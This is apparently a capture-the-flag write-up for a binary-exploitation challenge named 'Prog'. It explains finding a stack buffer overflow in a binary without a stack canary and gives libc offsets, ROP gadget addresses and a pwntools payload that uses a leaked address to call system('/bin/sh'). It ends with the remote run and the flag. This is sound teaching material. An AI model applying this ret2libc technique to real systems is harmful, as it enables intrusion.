








# challenge Name: Prog




In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```



## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work



The prog leak write address and ask user to input data

# reverse engineering the program

after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function




# vuln_function




3. # exploit the BOF:

    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    
# offset = 72

    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: 

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```

and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
